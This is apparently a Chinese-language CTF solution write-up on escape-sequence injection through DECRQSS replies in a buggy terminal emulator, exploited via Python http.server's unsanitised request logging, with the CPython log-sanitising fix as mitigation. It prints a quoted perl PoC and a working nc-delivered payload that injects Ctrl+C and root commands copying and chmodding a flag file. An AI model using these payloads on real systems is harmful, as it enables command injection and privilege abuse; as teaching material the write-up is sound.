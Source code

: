 > indicates the current setting of a valid control function that the host asked about. D...D consists of all the characters in the control function, except the CSI (9/11) or ESC [ (1/11, 5/11) introducer characters.

那么，如果程序给的 DECRQSS 是无效字符的话，`D ... D` 还需要输出吗？如果只看这一部分就去实现的话，显然会觉得要这么做，然后就导致了程序的任意输出都会被终端模拟器变成用户输入。具体可以参考 2008 年时候 [漏洞报告邮件](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=510030) 里的 PoC：

```sh
perl -e 'print "\eP\$q\nbad-command\n\e\\"'
```

于是整个利用链条就可以是，给一些 DECRQSS 序列，使得有问题的实现会：

- 模拟用户按下 Ctrl + C（或者别的快捷键），把 `fileserver` 关掉（顺便拿到 Flag 1）
- 模拟用户输入 `cp /flag /dev/shm/flag`
- 模拟用户输入 `chmod 777 /dev/shm/flag`

这样就能以 root 的身份把 flag 送给我们了。但是构造的时候有一个问题是：HTTP Server 只会输出整个 HTTP 请求的第一行，因此需要注意。

首先是关掉当前的进程，我们需要将 "Ctrl + C" 放在我们的自定义输入里面。Ctrl + C 事实上对应的是 ASCII 的第三个字符 [ETX（End of Text）](https://en.wikipedia.org/wiki/End-of-Text_character)。所以对应的序列是：

```sh
\eP\$q\x03\e\\
```

然后接下来要执行两个命令，但不能使用 `\n`。解决方法是……使用 `\r`。

我的理解是，Linux 的 TTY 默认情况下启用了 ICRNL（见 [termios(3)](https://www.man7.org/linux/man-pages/man3/termios.3.html)），会将输入的 `\r` 自动翻译为 `\n`。

最后构造出的 payload 类似如下：

```sh
#!/bin/bash

printf "GET /?\eP\$q\x03\e\\ \eP\$q\rcp /flag2 /dev/shm/example\r\e\\ \eP\$q\rchmod 777 /dev/shm/example\r\e\\ HTTP/1.0\n\n" | nc localhost 8000
sleep 2
ls /dev/shm/
cat /dev/shm/example
```

### 缓解方法

Python 的 `http.server` 的问题[在 2022 年底修复](https://github.com/python/cpython/issues/100001)。如果你使用的是最新小版本的 3.7 以及以上的话，那么就没有问题。不过有点糟糕的是，Debian 11 的 Python 3.9.2 还没有移植这个修复，Debian 12 的 3.11.2 是好的。

参考代码如下：

```python
# https://github.com/python/cpython/blob/a3443c0e22a8623afe4c0518433b28afbc3a6df6/Lib/http/server.py#L577
_control_char_table = str.maketrans(
        {c: fr'\x{c:02x}' for c in itertools.chain(range(0x20), range(0x7f,0xa0))})
_control_char_table[ord('\\')] = r'\\'

def sanitize_log(message: str) -> str:
    return message.translate(_control_char_table)
```

## 附注

比赛的时候收到了一封邮件咨询为什么上传的 Python 脚本会 executable not found。看录屏文件发现是因为文件是 CRLF 的，然后 shebang 实际上就变成了：

```sh
#!/usr/bin/python\r
```

而 `python\r` 这个文件是不存在的。但是又不能给提示，所以很遗憾。
